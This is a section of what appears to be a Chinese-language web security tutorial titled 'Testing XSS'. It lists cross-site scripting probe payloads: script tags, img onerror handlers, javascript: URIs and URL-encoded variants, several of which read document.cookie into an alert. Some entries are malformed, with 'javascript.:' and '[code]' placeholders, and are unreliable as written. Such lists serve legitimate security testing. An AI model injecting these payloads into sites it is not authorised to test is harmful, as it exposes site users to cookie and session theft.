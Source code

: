 ![image-20210411224347654](../acess/image-20210411224347654.png) 

## 4、测试XSS

```html
<h5>1</h5>

<SCRIPT>alert(document.cookie)</SCRIPT>

<img src=1 onerror=alert(document.cookie)>
```

其他测试语句

```html
<script>alert('hello，gaga!');</script> //经典语句，哈哈！
>"'><img src="javascript.:alert('XSS')">

>"'><script>alert('XSS')</script>

<table background='javascript.:alert(([code])'></table>

<object type=text/html data='javascript.:alert(([code]);'></object>

"+alert('XSS')+"

'><script>alert(document.cookie)</script>

='><script>alert(document.cookie)</script>

<script>alert(document.cookie)</script>

<script>alert(vulnerable)</script>

<s&#99;ript>alert('XSS')</script>

<img src="javas&#99;ript:alert('XSS')">

%0a%0a<script>alert(\"Vulnerable\")</script>.jsp

%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e

%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e

%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html

<script>alert('Vulnerable')</script> 

a.jsp/<script>alert('Vulnerable')</script>

"><script>alert('Vulnerable')</script>

<IMG SRC="javascript.:alert('XSS');">
```
